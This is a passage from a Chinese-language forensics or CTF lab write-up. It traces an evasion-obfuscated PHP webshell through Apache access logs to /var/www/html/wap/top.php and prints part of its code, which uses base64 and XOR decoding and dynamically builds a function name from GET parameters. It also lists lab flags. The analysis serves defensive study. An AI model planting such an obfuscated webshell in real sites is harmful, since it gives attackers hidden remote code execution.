 然后进行MD5加密一下;
![[Pasted image 20250319205347.png]]
得到flag：

```
flag{aebac0e58cd6c5fad1695ee4d1ac1919}
```

## 四、flag4

**黑客免杀马完整路径 md5 flag{md5}**
什么是免杀马？
**免杀马**（免杀病毒或免杀Webshell）是指经过特殊处理和混淆，使其能够避开杀毒软件和安全检测工具识别的恶意软件或后门程序。黑客使用各种技术手段，使恶意代码看起来像是正常代码，从而躲避签名检测和基于规则的安全机制。这种技术通常用于Webshell和其他后门程序，目的是保持对受害系统的隐蔽访问。
免杀马通过静态检测是检测不到的，因为在免杀的过程中将webshel的特征值以及特征函数都给去掉了，因为webshell执行会在网站日志留下记录，那我们就到网站日志里面看看有啥可疑的记录，这里也顺便说一下linux的日志存放在/var/log目录下。
然后我们进入日志看一下日志文件：
进入日志文件夹后发现一个apache2的文件夹，说明网站使用了apache2进行搭建。
![[Pasted image 20250319205732.png]]
进去后，看一下access.log文件。
![[Pasted image 20250319205826.png]]
进去后，发现一个top.php执行了phpinfo()；且返回值为200，有点可疑。去找到相对应的文件发现是一个正常的文件来。
![[Pasted image 20250319210029.png]]
打开文件发现是一个使用base64_decode进行编码混淆了。

```php
root@ip-10-0-10-5:/var/www/html# cd wap
root@ip-10-0-10-5:/var/www/html/wap# ls
index.php  template  top.php
root@ip-10-0-10-5:/var/www/html/wap# cat top.php 
<?php

$key = "password";

//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
```

查看一下绝对路径：

```php
root@ip-10-0-10-5:/var/www/html/wap# pwd
/var/www/html/wap
root@ip-10-0-10-5:/var/www/html/wap# 
```
